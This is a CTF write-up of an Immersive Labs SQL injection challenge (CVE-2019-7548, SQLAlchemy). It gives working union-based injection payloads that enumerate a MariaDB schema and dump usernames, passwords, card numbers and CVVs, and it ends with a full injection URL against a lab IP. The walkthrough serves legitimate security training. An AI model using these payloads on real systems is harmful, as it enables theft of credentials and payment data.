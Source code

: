 ```yaml
---
date: 2025-01-09
categories: [CTF, ImmersiveLabs]
title: "IML - CVE-2019-7548 (SQLAlchemy)"
tags: ['john the ripper', 'privilege escalation', 'rce', 'sqli']

description: "CVE-2019-7548 (SQLAlchemy) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - CVE-2019-7548 (SQLAlchemy)


![image1](../resources/104530e8ce9144b8a7ca03ac32614d0e.png)
- Firstly we can see that there is a parameter that might be vulnerable to SQLi

- To test it, we can use a ' to break it


![image2](../resources/d8bf8d75a94a4170a70d85c6b3ba5aad.png)

- From here I use the order by query to find out how many columns the table has (trial and error)
- It errors at 9 so the table has 8 columns


![image3](../resources/984207172f12488180dea99b65e72f19.png)

- Now we can do union select 1,2,3,4,5,6,7,8 because the UNION has to have the same number of columns as the current table
- It was trial and error to find where the values were being reflected but I found it on the last page (221)


![image4](../resources/45d4e42d268e4f15b847b63869a89c21.png)

- Now we know where it is being reflected, we can get some information

- First find the type of DB and version:
```bash
union select 1,2,3,4,5,6,7,@@version

```

![image5](../resources/f1c0775cca67428696907ffe913c20f1.png)


![image6](../resources/8044a757cc3b464fb34e869b2fc7a778.png)

- Answering the questions:


![image7](../resources/a2dd9612bc6748a585a84b6c592ff62f.png)

- First let's get the database name - and because it's MariaDB we use:
```bash
database()

```

![image8](../resources/7f234af64aac45ad8e1ff0f5c947d401.png)


![image9](../resources/dec72510ef8b447db6c52a9e5dd96063.png)

- We can now enumerate the tables with:
```bash
union select 1,2,3,4,5,6,7,group_concat(table_name) from information_schema.tables where table_schema="website"

```

![image10](../resources/6b0ecc57e49041fcb53f7cfe8362e3c6.png)


![image11](../resources/82862971d33e4232ac1702f82d18e392.png)

- From here we get the tables <u>transactions and users</u>

- First let's enumerate the table users:
```bash
union select 1,2,3,4,5,6,7,group_concat(column_name) from information_schema.columns where table_name="users"

```

![image12](../resources/145d79b48ef74c3dbcb21e5f71d3d5df.png)


![image13](../resources/555d41cda3044677835d147a5a471cca.png)

- Here we get the columns
id,firstName,lastName,country,username,email,password,cardNumber,cardIssuer,cardExpiry,cardCVV

- To read the columns we do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users

```
This will read and concat the two columns: username and password. The 0x2b is a delimeter to make it more easily readable


![image14](../resources/4b86829c5e38449f975d1b0dafc6b90e.png)


![image15](../resources/7a89bc3750c74a5ab5453c7f45f549d0.png)

- To narrow it down do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users where username="ywalsh"

```

![image16](../resources/de5d883935e541b8ac32e77470a54c04.png)


![image17](../resources/a120b72b04354575bee352859d7e0a86.png)
- Use the following:

```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardNumber) from users where lastname="Park" and firstName="Shelly"

```

![image18](../resources/d61564005d864108a738b68e5f912633.png)

- Use the following:
```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV) from users where lastname="Elliott" and firstName="John"

```

![image19](../resources/c6b6ddc750aa47ba864f1e159c50b957.png)


![image20](../resources/6ff53b6b417f46ac9ddf011edf26bc22.png)

Full URL for this is:

`http://10.102.16.9/?page=221&group=email%20union%20select%201,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV)%20from%20users%20where%20lastname=%22Elliott%22%20and%20firstName=%22John%22`
